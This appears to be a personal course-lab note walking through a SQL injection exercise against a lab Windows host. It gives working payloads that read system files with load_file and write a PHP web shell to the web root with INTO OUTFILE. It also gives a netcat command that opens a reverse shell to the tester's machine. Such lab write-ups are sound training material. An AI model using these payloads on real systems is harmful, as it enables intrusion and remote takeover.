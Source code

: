 9.4.5.11

# 9.4.5.11
## # 9.4.5.11.1. Exploit the SQL injection along with the MariaDB INTO OUTFILE function to obtain code execution.

Read a file using the load_file function
`http://192.168.214.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')`
![fdd3ed88847831685e5eff6f71160cb8.png](:/0646c58283f14046a8f91bbef43dc6fb)

Use the *INTO OUTFILE* function to create a malicious PHP file in the server's web root.  `http://192.168.214.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
![8e446750bb0b98a0a00b8c62cf3359db.png](:/f34fbdfde7884ef4acab1e38f9fc1cae)

We had gotten an error above, but backdoor.php was created anyway. Let's try accessing it. It works!
`http://192.168.214.10/backdoor.php?cmd=ipconfig`
![f7d947ebfe112350911c62fd8426d3ae.png](:/d88da07defd542ef969b533c23c4df9a)



## # 9.4.5.11.2. Turn the simple code execution into a full shell.

Open a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lvnp 5678
listening on [any] 5678 ...
```

Create a netcat client on the Windows machine
`http://192.168.214.10/backdoor.php?cmd=nc -nv 192.168.119.214 5678 -e cmd.exe`
![67e9141d91909f5fa91cfbcba7fb1351.png](:/70496db07cea43ec9f0280373fa7ea08)


Notice we now have a shell on the Kali machine
![55c76338b4508e7d9538e7cb339a27ac.png](:/b1290328393848b08528ff27e2637386)

id: cef25d1cf1cd4713a012645c687af98c
parent_id: e1501d72bc14408194ed7f6ad4c8f57e
created_time: 2020-10-02T21:24:28.527Z
updated_time: 2020-10-02T21:24:30.141Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:24:28.527Z
user_updated_time: 2020-10-02T21:24:30.141Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1